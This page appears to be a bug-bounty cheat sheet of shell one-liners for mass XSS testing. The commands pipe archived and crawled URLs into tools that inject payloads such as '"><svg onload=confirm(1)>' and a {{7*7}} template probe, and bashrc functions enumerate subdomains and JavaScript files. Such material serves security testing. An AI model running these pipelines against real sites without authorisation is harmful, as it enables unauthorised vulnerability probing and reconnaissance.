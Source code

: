 ###  urldedupe bhedak
- [Explained command]
```bash
waybackurls testphp.vulnweb.com | urldedupe -qs | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'
```

### Hakrawler Airixss XSS 
- [Explained command]
```bash
echo testphp.vulnweb.com | httpx -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'
```


###  Airixss XSS 
- [Explained command]
```bash
echo testphp.vulnweb.com | waybackurls | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"
```


###  FREQ XSS 
- [Explained command]
```bash
echo testphp.vulnweb.com | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not'
```


###  Bhedak
- [Explained command]
```bash
cat urls | bhedak "\"><svg/onload=alert(1)>*'/---+{{7*7}}"
```

###  .bashrc shortcut OFJAAAH

```bash
reconjs(){
gau -subs $1 |grep -iE '\.js'|grep -iEv '(\.jsp|\.json)' >> js.txt ; cat js.txt | anti-burl | awk '{print $4}' | sort -u >> AliveJs.txt
}
cert(){
curl -s "[https://crt.sh/?q=%.$1&output=json](https://crt.sh/?q=%25.$1&output=json)" | jq -r '.[].name_value' | sed 's/\*\.//g' | anew
}
anubis(){
curl -s "[https://jldc.me/anubis/subdomains/$1](https://jldc.me/anubis/subdomains/$1)" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | anew
}
```

